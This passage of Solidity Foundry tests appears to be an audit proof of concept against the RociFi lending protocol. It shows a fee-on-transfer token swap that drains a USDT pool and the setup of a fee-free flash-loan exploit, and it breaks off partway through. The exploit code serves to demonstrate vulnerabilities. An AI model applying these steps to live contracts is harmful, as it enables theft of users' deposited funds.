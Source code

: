 ```solidity
    usdt.transfer(user, amountToExploit);
    assertGe(usdt.balanceOf(user), amountToExploit);
    changePrank(user);

    // Deploy mock usdt with fee-on-transfer (1% fee) and set that code to the official usdt address
    // The key here is that now the usdt address has the same storage as before but with a different code (fee-on-transfer code)
    MockERC20FoT upgradedUSDT = new MockERC20FoT(6);
    bytes memory contractCode = address(upgradedUSDT).code;
    vm.etch(address(usdt), contractCode);

    // Save the initial USDT balances
    uint256 userBalanceBefore = usdt.balanceOf(user);
    uint256 poolBalanceBefore = usdt.balanceOf(address(usdtPool));

    console.log("BEFORE THE EXPLOIT: ");
    console.log("===================");
    console.log("Pool USDT Balance: ", poolBalanceBefore / 1e6, "USDT");
    console.log("User USDT Balance: ", userBalanceBefore / 1e6, "USDT");
    console.log("===================\n\n");

    // Approve 1.5M USDT to the pool and deposit
    usdt.approve(address(usdtPool), amountToExploit);
    usdtPool.deposit(amountToExploit,"2.0.0");

    // Advance 1 block and withdraw all rUSDT user has
    vm.warp(block.timestamp + 1);
    uint256 amountToWithdraw = MockERC20(address(usdtPool)).balanceOf(user);
    usdtPool.withdraw(amountToWithdraw,"2.0.0");

    // Save final USDT balances
    uint256 poolBalanceAfter = usdt.balanceOf(address(usdtPool));
    uint256 userBalanceAfter = usdt.balanceOf(user);

    // The logs show pool balance has decreased from 15.192 USDT to 192 USDT
    console.log("AFTER THE EXPLOIT: ");
    console.log("===================");
    console.log("Pool USDT Balance: ", poolBalanceAfter / 1e6, "USDT");
    console.log("User USDT Balance: ", userBalanceAfter / 1e6, "USDT");
    console.log("===================");
}

/**
 * @dev Here we add 1000 USDT as collateral, we borrow 1000 USDC, repay it in the same block and claim the back the collateral.
 * @notice All operations here are without paying any fees to RociFi protocol
 */
function test_zeroInterestFlashLoan() public {
    // Give 1K USDT to our user for the exploit
    uint256 amountToExploit = 1000e6;
    changePrank(usdtWhale);
    usdt.transfer(user, amountToExploit);
    assertGe(usdt.balanceOf(user), amountToExploit);
    changePrank(user);

    // Save user USDT balance and approve it to collateral mananger
    uint256 userBalanceBefore = usdt.balanceOf(user);
    usdt.approve(address(collateralManager), amountToExploit);

    // Add 1000 USDT as collateral
    collateralManager.addCollateral(user, usdt, amountToExploit);    

```